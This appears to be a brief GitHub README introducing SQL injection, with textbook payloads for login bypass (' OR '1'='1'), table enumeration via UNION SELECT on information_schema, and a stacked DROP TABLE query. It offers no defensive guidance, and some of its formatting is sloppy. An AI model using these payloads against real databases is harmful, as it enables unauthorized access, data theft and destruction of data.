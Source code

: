 # database hacking attack

![image](https://github.com/user-attachments/assets/e1c77952-3368-4f4e-afd9-733de720be3c)


## What a database attack?
a database attack is: A malicious attempt to access, manipulate, steal or destroy data stored in a 
database management system (DBMS) by exploiting vulnerabilities in configuration, application logic or code.

## Main objectives of an attack:
@ Stealing sensitive information (e.g. user data, credit cards, credentials)

@ Change or delete data

@ Take control of the server

@ Gain unauthorised access to restricted areas

## 1.comands 
```shell
! SELECT * FROM utenti WHERE username = '' OR '1'='1' AND password = '';
```
 Allowing access without valid credentials.

## 2. Unauthorized access: Using ' OR '1'='1' -, the query could be

```shell
SELECT * FROM utenti WHERE username = '' OR '1'='1' --' AND password = '';
```
The comment (--) ignores the rest of the query, allowing access.

## 3.Table Enumeration: An attacker might try to discover the database tables with:

```shell
$ UNION SELECT table_name, null FROM information_schema.tables;
```
## Running dangerous commands: By entering '; DROP TABLE users; -, the query could become:
```shell
$ SELECT * FROM utenti WHERE username = ''; DROP TABLE utenti; --' AND password = '';
```
